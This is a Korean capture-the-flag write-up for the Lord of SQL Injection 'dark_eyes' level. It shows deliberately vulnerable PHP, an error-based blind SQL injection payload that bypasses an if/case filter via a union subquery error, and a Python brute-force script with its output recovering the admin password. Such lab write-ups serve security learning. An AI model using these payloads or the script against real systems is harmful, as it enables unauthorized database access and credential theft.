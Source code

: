 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - dark_eyes 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번에도 역시 `Error`를 기반으로 한 `Error Based Blind SQL Injection` 이다.  

그런데 이번에는 이 전 문제랑은 약간 다르다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id from prob_dark_eyes where id='admin' and pw=''
------------------------------------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

이 전 문제에서 사용했던 `if`가 필터링 대상에 들어가 있고, `if`를 대체할 수 있는 `case`나 `when`도 필터링한다.  

즉, 조건문을 사용할 수가 없다.  

그래서 내가 처음에 생각했던 방법은 `and`와 `or`을 적절히 이용하는 것이다.  

만약에 `1 or 0`이라는 조건이 있다면, 앞의 `1`이 이미 참이기 때문에 뒤의 `0`은 체크하지 않는다고 생각했다.  

반면 `0 or 1`이라면, 앞의 `0`이 거짓이기 때문의 뒤의 `1`을 체크하는 것이다.  

그래서 앞에 `pw`의 길이와 내용을 알기 위한 쿼리를 넣고 뒤에 에러를 유발하는 쿼리문을 넣는다면, 앞의 조건이 참이라면 뒤의 에러 유발용 쿼리가 실행되지 않아 정상적으로 페이지가 보일 것이라고 생각했던 것이다.  

그런데 음... 내가 뭘 잘못 한 것인지 이건 아무리 해도 안됬다.  

정확히는 쿼리 스트링을 `pw=1' or id='admin' and ord('a')=97 or 9e307*2`를 넣으면 앞의 `id='admin' and ord('a')=97`가 참이기 때문에 뒤의 `9e307*2`에 대해서 에러가 발생하지 않는다.  

(9e307은 MySQL에서의 최대값이기 때문에 9e307*2를 하면 `DOUBLE value is out of range in '(9e307 * 2)'`라는 에러가 발생한다.)  

그런데 `pw=1' or id='admin' and length(pw)>0 or 9e307*2`을 넣으면 무슨 조건을 넣더라도 무조건 에러가 나왔다.  

왜 이러는지 이유를 모르겠다 ㅠㅠ  

그래서 결국 다른 방법을 찾아보아서 아래와 같이 쿼리 스트링을 구성 해 문제를 풀었다.  

```
?pw=1' or id='admin' and (select 1 union select (length(pw)=1))#
```

이렇게 하면 만약 `length(pw)=1`이 참이라면 `1`을 반환하기 때문에 `select 1 union select 1`이 되어 한 행만 결과로 나온다.  

하지만 거짓이라면 `select 1 union select 0`을 하게 되면, 2개의 행을 반환하기 때문에 `Subquery returns more than 1 row`라는 오류를 출력한다.  

이를 바탕으로 `pw`를 알아내기 위해 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and (select 1 union select (length(pw)=" + str(i) + "))%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'select id from prob_dark_eyes' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and (select 1 union select (ord(substr(pw, " + str(j) + ", 1))=" + str(i) + "))%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'select id from prob_dark_eyes' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 소문자와 숫자로 구성 된 8자리 `pw`값을 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 5
[+] Found 2 : 5a
[+] Found 3 : 5a2
[+] Found 4 : 5a2f
[+] Found 5 : 5a2f5
[+] Found 6 : 5a2f5d
[+] Found 7 : 5a2f5d3
[+] Found 8 : 5a2f5d3c
[+] Found password :  5a2f5d3c
[+] End
```

이 값을 쿼리스트링으로 넘겨주면 문제를 풀 수 있다.  

```
?pw=5a2f5d3c
```

```php
----------------------------------------------------------------------------------------------------
query : select id from prob_dark_eyes where id='admin' and pw='5a2f5d3c'
----------------------------------------------------------------------------------------------------

DARK_EYES Clear!
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

`DARK_EYES Clear!!`
